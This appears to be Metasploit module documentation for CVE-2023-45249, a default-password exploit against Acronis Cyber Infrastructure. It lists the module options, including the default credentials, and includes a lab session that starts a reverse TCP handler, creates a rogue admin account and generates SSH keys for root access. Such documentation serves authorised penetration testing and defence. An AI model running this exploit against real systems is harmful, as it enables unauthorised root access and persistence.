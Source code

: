 ```msf

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  DATABASE       keystone         yes       The database to authenticate against
  DBPORT         6432             yes       PostgreSQL DB port
  PASSWORD       vstoradmin       no        The password for the specified username. Leave blank for a random password.
  PRIV_KEY_FILE                   no        SSH private key file in PEM format (ssh-keygen -t rsa -b 2048 -m PEM -f <priv_key_file>)
  Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                            tasploit.html
  RPORT          8888             yes       The target port (TCP)
  SSHPORT        22               yes       SSH port
  SSL            true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI      /                yes       Path to the Acronis Cyber Infra application
  USERNAME       vstoradmin       yes       The username to authenticate as
  VHOST                           no        HTTP server virtual host

Payload information:

Description:
  Acronis Cyber Infrastructure (ACI) is an IT infrastructure solution that provides storage,
  compute, and network resources. Businesses and Service Providers are using it for data storage,
  backup storage, creating and managing virtual machines and software-defined networks, running
  cloud-native applications in production environments.
  This module exploits a default password vulnerability in ACI which allow an attacker to access
  the ACI PostgreSQL database and gain administrative access to the ACI Web Portal.
  This opens the door for the attacker to upload SSH keys that enables root access
  to the appliance/server. This attack can be remotely executed over the WAN as long as the
  PostgreSQL and SSH services are exposed to the outside world.
  ACI versions 5.0 before build 5.0.1-61, 5.1 before build 5.1.1-71, 5.2 before build 5.2.1-69,
  5.3 before build 5.3.1-53, and 5.4 before build 5.4.4-132 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-45249
  https://security-advisory.acronis.com/advisories/SEC-6452
  https://attackerkb.com/topics/T2b62daDsL/cve-2023-45249

View the full module info with the info -d command.
```
## Scenarios
### Acronis Cyber Infrastructure 4.7 appliance Unix/Linux command
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > check
[*] 192.168.201.5:8888 - The target appears to be vulnerable. Version 4.7.1-53
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user qagkx with password gXv0E2DUU9 for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Saving SSH public and private key pair at the msf database.
```